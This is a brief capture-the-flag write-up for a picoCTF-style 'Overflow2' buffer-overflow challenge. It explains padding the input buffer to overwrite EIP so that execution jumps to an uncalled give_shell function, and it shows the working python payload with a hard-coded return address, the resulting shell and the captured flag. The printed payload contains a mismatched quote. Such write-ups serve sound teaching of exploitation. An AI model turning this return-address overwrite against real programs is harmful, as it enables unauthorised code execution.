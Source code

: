 # Overflow2 - 70

```
This problem has a buffer overflow vulnerability! Can you get a shell?
You can solve this problem interactively here, and the source can be found here.
```

Similar to first one but quite different. Instead of entering password, we have to control eip by overflowing the buffer to run the give shell fucntion.
Note:give_shell is not called in any fuctnion.


At first, I tried $(python -c "print 'A' * 16 + '\xad\x84\x04\x08'") but I realized there are paddings.
So I just played around with it (though I could have used gdb to calculate the exact amount).

My payload:

```
pico15664@shell:/home/overflow2$ ./overflow2 $(python -c "print 'A * 28 + '\xad\x84\x04\x08'")
$cat flag.txt
controlling_%eip_feels_great
```
